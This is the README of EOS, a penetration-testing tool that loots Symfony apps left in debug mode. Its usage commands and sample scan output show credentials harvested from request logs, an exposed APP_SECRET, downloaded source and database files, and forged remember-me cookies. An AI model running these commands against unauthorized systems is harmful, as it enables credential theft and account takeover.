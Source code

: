 # Enemies Of Symfony (EOS)

`EOS` loots information from a Symfony target in debug mode:

| Section | Description |
| --- | --- |
| General | Get general information about the target. |
| Phpinfo | Extract Symfony environment variables from the exposed phpinfo(). |
| Routes | Get the list of registered routes. |
| Request logs | Look for credentials in POST request logs. |
| Project files | Retrieve project files (configuration, database, etc.) based on a wordlist. |
| Sources | Extract the application source code. |
| Cookies | Craft Remember Me cookies. |

More info at https://www.synacktiv.com/posts/pentest/looting-symfony-with-eos.html.

Note that this tool does not exploit any Symfony vulnerability. The profiler is
a useful component for developers and `EOS` simply takes advantage on
misconfigured Symfony applications. In fact, the profiler [documentation][1]
prominently warns developers:

> Never enable the profiler in production environments as it will lead to major security vulnerabilities in your project.

Thanks to all the Symfony team for their awesome work!

[1]: https://symfony.com/doc/current/profiler.html

## Installation

Tested on Python >= 3.7.

```bash
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

## Usage

```bash
usage: eos [-h] [-V] [-v] [--no-colors] {scan,sources,get,creds,cookies} ...

  ███████╗ ██████╗ ███████╗
  ██╔════╝██╔═══██╗██╔════╝
  █████╗  ██║   ██║███████╗
  ██╔══╝  ██║   ██║╚════██║
  ███████╗╚██████╔╝███████║  Enemies Of Symfony
  ╚══════╝ ╚═════╝ ╚══════╝  v1.1

positional arguments:
  {scan,sources,get,creds,cookies}
    scan                 perform a full scan
    sources              download application source code
    get                  download a file from the application
    creds                extract credentials from request logs
    cookies              craft remember me cookies with a great lifetime

optional arguments:
  -h, --help             show this help message and exit
  -V, --version          display version info
  -v, --verbose          increase verbosity
  --no-colors            disable colors in output

examples:
  eos scan http://localhost
  eos scan -H 'Cookie: foo=bar; john=doe' -H 'User-Agent: EOS' http://localhost
  eos get http://localhost config/services.yaml
  eos cookies -u jane_admin -H '$2y$13$IMalnQpo7xfZD5FJGbEadOcqyj2mi/NQbQiI8v2wBXfjZ4nwshJlG' -s 67d829bf61dc5f87a73fd814e2c9f629
```

```bash
$ eos scan http://localhost --output results
[+] Starting scan on http://localhost
[+] 2020-04-23 14:21:26.463352 is a great day

[+] Info
[!]   Symfony 5.0.1
[!]   PHP 7.3.11-1~deb10u1
[!]   Environment: dev

[+] Request logs
[+] Found 9 POST requests
[!] Found the following credentials with a valid session:
[!]   jane_admin: kitten [ROLE_ADMIN]

[+] Phpinfo
[+] Available at http://localhost/_profiler/phpinfo
[+] Found 101 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: 67d829bf61dc5f87a73fd814e2c9f629
[!]   DATABASE_URL: sqlite:///%kernel.project_dir%/data/database.sqlite
[!]   MAILER_URL: null://localhost

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com
[!] Found the following files:
[!]   composer.lock
[!]   composer.json
[!]   config/bundles.php
[!]   config/bootstrap.php
[!]   config/packages/assets.yaml
[!]   config/packages/cache.yaml
[!]   config/packages/dev/debug.yaml
[!]   config/packages/dev/monolog.yaml
[!]   config/packages/dev/routing.yaml
[!]   config/packages/dev/swiftmailer.yaml
[!]   config/packages/dev/web_profiler.yaml
[!]   config/packages/doctrine_migrations.yaml
[!]   config/packages/doctrine.yaml
[!]   config/packages/framework.yaml
[!]   config/packages/html_sanitizer.yaml
[!]   config/packages/prod/doctrine.yaml
[!]   config/packages/prod/monolog.yaml
[!]   config/packages/prod/routing.yaml
[!]   config/packages/prod/webpack_encore.yaml
[!]   config/packages/routing.yaml
[!]   config/packages/security.yaml
[!]   config/packages/sensio_framework_extra.yaml
[!]   config/packages/swiftmailer.yaml
[!]   config/packages/test/dama_doctrine_test_bundle.yaml
[!]   config/packages/test/framework.yaml
[!]   config/packages/test/monolog.yaml
[!]   config/packages/test/routing.yaml
[!]   config/packages/test/security.yaml
[!]   config/packages/test/swiftmailer.yaml
[!]   config/packages/test/twig.yaml
[!]   config/packages/test/validator.yaml
[!]   config/packages/test/webpack_encore.yaml
[!]   config/packages/test/web_profiler.yaml
[!]   config/packages/translation.yaml
[!]   config/packages/twig.yaml
[!]   config/packages/validator.yaml
[!]   config/packages/webpack_encore.yaml
[!]   config/routes/annotations.yaml
[!]   config/routes/dev/framework.yaml
[!]   config/routes/dev/web_profiler.yaml
[!]   config/routes.yaml
[!]   config/services.yaml
[!]   data/database.sqlite
[!]   data/database_test.sqlite
[!]   package.json
[!]   public/index.php
[!]   public/robots.txt
[!]   README.md
[!]   src/Kernel.php
[!]   symfony.lock
[!]   var/cache/dev/url_generating_routes.php
[!]   var/cache/dev/url_matching_routes.php
[!]   var/log/dev.log

[+] Routes
[!] Found the following routes:
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/new
[!]   /{_locale}/admin/post/{id}
[!]   /{_locale}/admin/post/{id}/edit
[!]   /{_locale}/admin/post/{id}/delete
[!]   /{_locale}/blog/
[!]   /{_locale}/blog/rss.xml
[!]   /{_locale}/blog/page/{page}
[!]   /{_locale}/blog/posts/{slug}
[!]   /{_locale}/blog/comment/{postSlug}/new
[!]   /{_locale}/blog/search
[!]   /{_locale}/login
[!]   /{_locale}/logout
[!]   /{_locale}/profile/edit
[!]   /{_locale}/profile/change-password
[!]   /{_locale}

[+] Project sources
[!] Found the following source files:
[!]   src/Command/AddUserCommand.php
[!]   src/Command/DeleteUserCommand.php
[!]   src/Command/ListUsersCommand.php
[!]   src/Controller/Admin/BlogController.php
[!]   src/Controller/BlogController.php
[!]   src/Controller/SecurityController.php
[!]   src/Controller/UserController.php
[!]   src/DataFixtures/AppFixtures.php
[!]   src/Entity/Comment.php
[!]   src/Entity/Post.php
[!]   src/Entity/Tag.php
[!]   src/Entity/User.php
[!]   src/EventSubscriber/CheckRequirementsSubscriber.php
[!]   src/EventSubscriber/CommentNotificationSubscriber.php
[!]   src/EventSubscriber/ControllerSubscriber.php
[!]   src/EventSubscriber/RedirectToPreferredLocaleSubscriber.php
[!]   src/Events/CommentCreatedEvent.php
[!]   src/Form/CommentType.php
[!]   src/Form/DataTransformer/TagArrayToStringTransformer.php
[!]   src/Form/PostType.php
[!]   src/Form/Type/ChangePasswordType.php
[!]   src/Form/Type/DateTimePickerType.php
[!]   src/Form/Type/TagsInputType.php
[!]   src/Form/UserType.php
[!]   src/Kernel.php
[!]   src/Pagination/Paginator.php
[!]   src/Repository/PostRepository.php
[!]   src/Repository/TagRepository.php
[!]   src/Repository/UserRepository.php
[!]   src/Security/PostVoter.php
[!]   src/Twig/AppExtension.php
[!]   src/Twig/SourceCodeExtension.php
[!]   src/Utils/Markdown.php
[!]   src/Utils/MomentFormatConverter.php
[!]   src/Utils/Slugger.php
[!]   src/Utils/Validator.php

[+] Saving files to results
[+] Saved 88 files

[+] Generated tokens: 5894a5 f68efa
[+] Scan completed in 0:00:13
```
